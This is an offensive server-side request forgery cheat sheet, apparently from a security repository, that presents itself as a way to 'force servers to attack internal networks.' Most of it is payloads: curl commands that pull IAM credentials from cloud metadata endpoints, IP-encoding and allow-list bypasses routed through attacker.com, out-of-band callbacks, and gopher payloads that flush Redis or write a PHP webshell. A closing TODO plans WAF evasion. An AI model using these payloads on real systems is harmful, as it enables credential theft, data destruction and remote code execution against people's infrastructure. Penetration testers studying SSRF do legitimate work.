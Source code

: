 # force servers to attack internal networks. pivot through web applications.

## quick test payloads

internal service discovery:
```
http://127.0.0.1/
http://localhost:8080/admin
http://127.0.0.1:3000/metrics
http://127.0.0.1:6379/ (redis)
http://127.0.0.1:5432/ (postgres)
```

cloud metadata extraction:
```
http://169.254.169.254/latest/meta-data/
http://169.254.169.254/latest/meta-data/iam/security-credentials/
http://169.254.169.254/latest/user-data
```

## common injection points

url parameters:
```
/fetch?url=http://evil.com
/proxy?target=http://internal.local
/webhook?callback=http://attacker.com
/image?src=http://127.0.0.1:8080
```

json payloads:
```json
{"url": "http://127.0.0.1/admin"}
{"webhook": "http://attacker.com/callback"}
{"redirect": "http://internal.service"}
```

## filter bypass techniques

**ip encoding variations:**
```
# decimal encoding
http://2130706433/ (127.0.0.1)

# hex encoding  
http://0x7f000001/

# octal encoding
http://0177.0.0.1/

# short form
http://127.1/
http://127.0.1/
```

**protocol alternatives:**
```
gopher://127.0.0.1:6379/_PING
file:///etc/passwd  
ftp://127.0.0.1/
dict://127.0.0.1:6379/info
```

**dns rebinding:**
```
# register subdomain that resolves to internal ip
http://internal.attacker.com/ (points to 127.0.0.1)
http://admin.evil.com/ (points to 192.168.1.1)
```

## cloud metadata exploitation

**aws metadata:**
```bash
# list iam roles
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/

# get temporary credentials
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/[role-name]

# user data (often contains secrets)
curl http://169.254.169.254/latest/user-data
```

**azure metadata:**
```bash
# requires metadata header
curl -H "Metadata: true" http://169.254.169.254/metadata/instance/compute?api-version=2021-02-01
```

**gcp metadata:**
```bash
# requires metadata-flavor header  
curl -H "Metadata-Flavor: Google" http://metadata.google.internal/computeMetadata/v1/instance/
```

## out-of-band verification

dns interaction:
```
http://collaborator-domain.com/
http://unique-id.dnslog.cn/
```

http callbacks:
```
http://attacker.com/log?ssrf=confirmed&host=TARGET
```

## time-based detection

test for internal services via response timing:
```bash
# fast response = service exists
/fetch?url=http://127.0.0.1:80

# slow/timeout = service doesn't exist  
/fetch?url=http://127.0.0.1:9999
```

## exploiting internal services

**redis exploitation:**
```
gopher://127.0.0.1:6379/_PING
gopher://127.0.0.1:6379/_FLUSHALL
gopher://127.0.0.1:6379/_SET%20shell%20"<?php system($_GET[cmd]); ?>"
```

**memcached:**
```
gopher://127.0.0.1:11211/_stats
```

**fastcgi:**
```
gopher://127.0.0.1:9000/[fastcgi-payload]
```

## bypass techniques for common defenses

**deny list bypass:**
```
# localhost alternatives
0, 0.0.0.0, 127.1, 2130706433, 017700000001

# cloud metadata alternatives  
http://[::1]/  (ipv6 localhost)
http://admin.internal.attacker.com/ (dns to internal ip)
```

**allow list bypass:**
```
# subdomain confusion
https://allowed-domain.com.attacker.com/
https://allowed-domain.com@attacker.com/
https://allowed-domain.com#@attacker.com/

# open redirect abuse
https://allowed-domain.com/redirect?url=http://internal.service/
```

## operational notes

- test all user-controlled url parameters
- [!] ssrf can lead to internal network pivoting - document everything  
- cloud metadata often contains iam keys and secrets
- combine with other vulns for rce (redis -> webshell upload)
- response content and timing reveal internal service fingerprints

**tools:**
- ssrfmap for automated exploitation
- gopherus for protocol payloads  
- collaborator/dnslog for oob verification

# TODO: add detection evasion for common ssrf waf rules